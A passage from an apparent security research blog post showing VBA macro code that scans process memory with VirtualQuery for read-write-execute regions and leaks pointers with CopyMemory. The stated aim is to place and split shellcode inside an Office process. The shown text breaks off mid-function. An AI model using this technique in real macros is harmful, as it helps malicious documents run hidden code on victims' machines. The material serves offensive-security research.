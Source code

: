 ```vb
        ret = VirtualQuery(addr, mbi, LenB(mbi))
        If mbi.Protect = 64 Then
            Cells(j, 1) = "0x" + Hex(mbi.BaseAddress)
            Cells(j, 2) = "0x" + Hex(mbi.RegionSize)
            j = j + 1
        End If
        addr = mbi.BaseAddress + mbi.RegionSize
    Next i
End Function

Sub test()
    a = getTarget()
End Sub
```
<figure>
<img src="/VBA-hijack-pointers-rwa/Suitable.png" alt="RWX!"> 
<figcaption>
RWX!
</figcaption>
</figure>

If you execute more dummy functions before you would see that the number of suitable allocations is increased. 

Keep in mind this is being used by the program, so overwriting it could end in a crash because you corrupted the heap or any data that the program would use later. Be careful, the best is trying to find a region full of zeroes and place there your shellcode. Unfortunately I barely found a region big enough and in all my tests I had to split the shellcode in smaller parts. 

If we glue all together:

```vb
Private Type MEMORY_BASIC_INFORMATION
    BaseAddress As LongPtr
    AllocationBase As LongPtr
    AllocationProtect As Long
    RegionSize As LongPtr
    State As Long
    Protect As Long
    lType As Long
End Type

Private Declare PtrSafe Function VirtualQuery Lib "KERNEL32" (ByVal lpAddress As LongPtr, lpBuffer As MEMORY_BASIC_INFORMATION, ByVal dwLength As LongPtr) As LongPtr
Private Declare PtrSafe Sub CopyMemory Lib "KERNEL32" Alias "RtlMoveMemory" ( _
                        ByVal Destination As LongPtr, _
                        ByVal Source As LongPtr, _
                        ByVal Length As Long)
                        
Private Declare PtrSafe Function NtClose Lib "ntdll" (ByVal ObjectHandle As LongPtr) As Long
Dim a As LongPtr

Function leak() As LongPtr
    Dim funcLeak As LongPtr
    Dim i As LongPtr
    Dim j As Long
    
    For i = 0 To 512 Step 8
        Call CopyMemory(VarPtr(funcLeak), VarPtr(a) + i, 8)
        If Left(Hex(funcLeak), 4) = Left(Hex(VarPtr(a)), 4) Then
            Cells(2, 2) = "0x" & Hex(funcLeak)
            Cells(2, 1) = "0x" & Hex(VarPtr(a))
            Exit For
        End If
```